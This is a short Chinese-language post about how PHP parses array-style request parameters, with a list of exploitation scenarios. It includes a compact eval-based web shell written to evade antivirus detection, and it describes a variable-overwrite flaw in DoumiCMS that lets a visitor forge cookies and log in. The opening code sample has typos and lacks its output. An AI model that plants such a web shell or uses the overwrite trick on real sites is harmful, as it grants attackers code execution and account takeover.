

## PHP全局变量传参


`大家都知道PHP的全局变量有：`$_GET`,`$_`POST,`_`COOKIE等，当我们向这些变量传参时，在代码中的任何地方都可以获取到其传入的值。例如：`


```php
<?php
$a = $GET["a"];
printr($a);
}
```


其运行结果：


但是当我们传入一个数组呢，结果会怎样，比如传入`a[0]=123`:





php会将其解析为一个数组对象返回。


数组的key为`[]`中传入的值，value为`=`号后面的值。


## **一些利用场景**

1. 某些情况下后端会判断用户传入的参数是否为某个值，而忽略了数组对象，可能会导致一些安全问题。
2. 可以利用此特征来写免杀马，例如：

	```text
	<?php
	 $a = $_GET["a"];
	 foreach ($a as $key=>$v){
	     if ($key==0){
	         eval($v);
	     }
	 }
	```

3. 可能导致的变量覆盖问题。
例如，在DoumiCMS中全局变量注册是这么写的：

	```text
	 foreach (Array('_GET','_POST','_COOKIE') as $_request){
	 foreach ($$_request as $_k => $_v) {
	     ${$_k} = $_v;
	     }
	 }
	```


	这种情况下当用户传入`_COOKIE[id]=1`等参数时就可以伪造cookie进行登录。

4. 其它场景等遇到或想起来了在进行补充。
